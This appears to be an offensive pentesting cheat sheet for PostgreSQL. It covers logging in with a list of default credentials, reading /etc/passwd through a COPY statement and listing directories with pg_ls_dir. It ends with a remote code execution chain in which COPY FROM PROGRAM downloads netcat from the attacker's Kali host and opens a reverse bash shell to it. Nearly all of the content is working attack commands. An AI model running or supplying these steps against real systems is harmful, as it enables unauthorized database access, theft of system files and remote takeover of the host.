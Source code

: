 Try logging in with the following command and common creds:
```bash - kali
psql -h $TARGET -U postgres -p 5432
```
postgres : postgres
postgres : password
postgres : admin
admin : admin
admin : password
#### Database navigation
List all databases
```sql - postgresql
\l
```
Use specific database
```sql - postgresql
\c <DATABASE>
```
List all tables in current database
```sql - postgresql
\dt
```
Describe a table
```sql - postgresql
\d <TABLENAME>
```
Get user roles
```sql - postgresql
\du+
```
#### Read a file
```sql - postgresql
CREATE TABLE demo(t text);
```
```sql - postgresql
COPY demo from '/etc/passwd';
```
```sql - postgresql
SELECT * FROM demo;
```
#### Directory traversal
```sql - postgresql
select pg_ls_dir('./');
```
#### Remote Code Execution
In Kali:
```bash - kali
which nc
```
```bash - kali
cp /usr/bin/nc .
```
![[Python#Server]]
In postgres:
```sql - postgresql
\c postgres;
```
Clean up after yourself
```sql - postgresql
DROP TABLE IF EXISTS cmd_exec;
```
Create the table you want to hold the command output
```sql - postgresql
CREATE TABLE cmd_exec(cmd_output text);
```
Run the system command via the COPY FROM PROGRAM function
```sql - postgresql
COPY cmd_exec FROM PROGRAM 'wget http://$KALI/nc';
```
```sql - postgresql
DELETE FROM cmd_exec;
```
![[1._rlwrap]]
```sql - postgresql
COPY cmd_exec FROM PROGRAM 'nc -n $KALI 80 -e /usr/bin/bash';
```
